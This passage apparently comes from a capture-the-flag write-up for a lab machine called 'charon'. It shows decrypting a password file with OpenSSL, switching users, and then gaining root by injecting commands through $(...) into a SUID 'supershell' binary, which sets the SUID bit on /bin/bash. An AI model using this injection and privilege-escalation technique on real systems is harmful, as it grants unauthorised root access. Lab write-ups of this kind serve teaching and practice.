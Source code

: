 #### Decrypt the Encrypted File

With the private key generated, I used OpenSSL to decrypt the `pass.crypt` file and read the contents from it.

```bash
$ openssl pkeyutl -decrypt -inkey private_key.pem -in pass.crypt -out decrypted_file

$ cat decrypted_file
nevermindthebollocks
```

using the password I was able to switch the user to decoder

```
www-data@charon:/home/decoder$ su decoder
Password: 
decoder@charon:~$ id
uid=1001(decoder) gid=1001(freeeze) groups=1001(freeeze)
decoder@charon:~$ 
```


## shell as root

looking for files with suid permission I find a supershell one

```bash
decoder@charon:~$ find / -type f -perm -4000 2>/dev/null 
/usr/local/bin/supershell
```

doing a "strings" on supershell I find that the only command allowed is /bin/ls, but I'm able to inject commands 

```bash
decoder@charon:/usr/local/bin$ ./supershell '/bin/ls $(touch file)'
Supershell (very beta)
++[/bin/ls $(touch file)]
file  supershell
decoder@charon:/usr/local/bin$ ls
file  supershell
decoder@charon:/usr/local/bin$ 
```

This allows me to get a shell as root by setting the suid privilege on /bin/bash

```bash
decoder@charon:/usr/local/bin$ ./supershell '/bin/ls $(chmod u+s /bin/bash)'
Supershell (very beta)
++[/bin/ls $(chmod u+s /bin/bash)]
file  supershell
decoder@charon:/usr/local/bin$ bash -p
bash-4.3# id
uid=1001(decoder) gid=1001(freeeze) euid=0(root) groups=1001(freeeze)
bash-4.3# cat /root/root.txt 
f812af812a
```

